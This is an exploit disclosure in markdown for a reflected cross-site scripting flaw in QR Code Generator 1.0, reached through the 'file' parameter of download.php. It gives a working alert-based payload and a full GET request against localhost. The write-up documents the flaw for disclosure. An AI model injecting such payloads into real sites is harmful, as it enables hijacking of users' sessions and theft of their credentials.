 # QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Exploit Title:** QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Date:** 2023-27-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/qr-code-generator-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/QR_CODE_GENERATOR_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
QR Code Generator 1.0 allows Reflected Cross-site Scripting via parameter 'file' in "/qr-codegen/download.php?file=author.png". QR Code Generator is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Copy the link address of "Download QR Code": "http://localhost/qr-codegen/download.php?file=author.png"
+ And navigate to `http://localhost/qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)>`
+ Use this payload: `"><iMg src=N onerror=alert(document.domain)>`
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'file' parameter:
```
GET /qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)> HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Referer: http://localhost/qr-codegen/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/6f94b7e5-6ca1-4818-9a32-9bd990afa2ef)

![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/c9a8d093-c58a-4e6c-a848-92cfc4672ca8)
